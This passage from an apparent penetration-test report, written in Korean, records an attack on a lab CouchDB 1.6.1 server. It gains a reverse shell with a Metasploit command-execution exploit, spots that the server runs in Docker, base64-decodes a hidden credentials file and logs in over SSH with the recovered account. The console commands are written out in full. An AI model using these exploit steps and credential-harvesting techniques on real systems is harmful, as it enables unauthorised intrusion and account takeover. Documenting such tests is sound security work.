 
- 타겟 호스트의 CouchDB의 버전이 v1.6.1 이므로 해당 취약점 적용 가능하다는 것을 확인했다.
- `exploit/linux/http/apache_couchdb_cmd_exec`이 존재하여 `msfconsol`을 이용하여 초기 침투를 진행했다.

msfconsol - 초기 침투

```
msf6 > use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
msf6 exploit(linux/http/apache_couchdb_cmd_exec) > show targets 

Exploit targets:
=================

    Id  Name                     
    --  ----                     
=>  0   Automatic
    1   Apache CouchDB version 1.x
    2   Apache CouchDB version 2.x


msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set target 1
target => 1                      

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set lhost 10.0.5.121                                                                
lhost => 10.0.5.121 

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > set rhosts 10.0.5.122
rhosts => 10.0.5.

msf6 exploit(linux/http/apache_couchdb_cmd_exec) > run
```

- `msfconsol` 이용하여 couchdb 리버스 쉘을 획득한 뒤 정보 수집을 이어가던 중 `/.dockerenv` 파일을 보고 현재 데이터 베이스 서버가 도커에서 실행중인 것을 확인헀다.
  - <img src="../../images/2025-08-22-보고서/image-4.png" alt="도커증거" style="zoom: 50%;" />

- 도커 탈출을 위해 정보 수집을 진행하던 중, couchdb 홈디렉토리에 숨겨진 파일 `.creds` 파일 발견했다.
  - <img src="../../images/2025-08-22-보고서/image-5.png" alt="credfile" style="zoom:50%;" />


- 해당 파일 내용이 base64로 인코딩 되어있는 것 같아 점검자의 칼리에서 디코딩을 진행했다. -> `dmzdbadmin:dmzdbadmin` 계정 획득

```
┌──(kali㉿kali)-[~/exam]
└─$ vim base.txt                      

┌──(kali㉿kali)-[~/exam]
└─$ base64 -d base.txt                                    
COUCHDB_USER=dmzdbadmin:COUCHDB_PASSWORD=dmzdbadmin
```

- 획득한 계정 정보로 SSH 이용하여 `dmzdbadmin` 유저로 로그인에 성공했다.
  - <img src="../../images/2025-08-22-보고서/image-6.png" alt="낮은 권한 획득" style="zoom: 67%;" />
